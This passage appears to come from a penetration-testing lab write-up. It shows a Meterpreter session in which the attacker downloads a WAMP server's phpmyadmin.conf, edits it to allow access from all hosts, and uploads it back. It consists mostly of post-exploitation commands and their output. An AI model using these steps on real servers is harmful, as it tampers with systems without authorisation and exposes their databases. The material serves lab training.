```
meterpreter > download phpmyadmin.conf
[*] Downloading: phpmyadmin.conf -> /root/phpmyadmin.conf
[*] Downloaded 471.00 B of 471.00 B (100.0%): phpmyadmin.conf -> /root/phpmyadmin.conf
[*] download   : phpmyadmin.conf -> /root/phpmyadmin.conf
```

```
root@attackdefense:~# ls
Desktop  phpmyadmin.conf  thinclient_drives
root@attackdefense:~# vim phpmyadmin.conf
root@attackdefense:~# cat phpmyadmin.conf 
Alias /phpmyadmin "c:/wamp/apps/phpmyadmin3.4.10.1/" 

# to give access to phpmyadmin from outside 
# replace the lines
#
#        Order Deny,Allow
#       Deny from all
#       Allow from 127.0.0.1
#
# by
#
#        Order Allow,Deny 
#   Allow from all
#

<Directory "c:/wamp/apps/phpmyadmin3.4.10.1/">
    Options Indexes FollowSymLinks MultiViews
    AllowOverride all
        Allow from all 
</Directory>
```

```
meterpreter > upload phpmyadmin.conf
[*] uploading  : /root/phpmyadmin.conf -> phpmyadmin.conf
[*] Uploaded 417.00 B of 417.00 B (100.0%): /root/phpmyadmin.conf -> phpmyadmin.conf
[*] uploaded   : /root/phpmyadmin.conf -> phpmyadmin.conf
meterpreter > ls
Listing: C:\wamp\alias
======================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  1488  fil   2021-10-28 19:48:52 +0530  httpd-dav.conf
100666/rw-rw-rw-  417   fil   2023-05-06 19:17:15 +0530  phpmyadmin.conf
100666/rw-rw-rw-  441   fil   2021-10-28 20:00:09 +0530  sqlbuddy.conf
100666/rw-rw-rw-  439   fil   2021-10-28 20:00:09 +0530  webgrind.conf

meterpreter > cat phpmyadmin.conf 
Alias /phpmyadmin "c:/wamp/apps/phpmyadmin3.4.10.1/" 

# to give access to phpmyadmin from outside 
# replace the lines
#
#        Order Deny,Allow
#       Deny from all
#       Allow from 127.0.0.1
#
# by
#
#        Order Allow,Deny 
#   Allow from all
#
```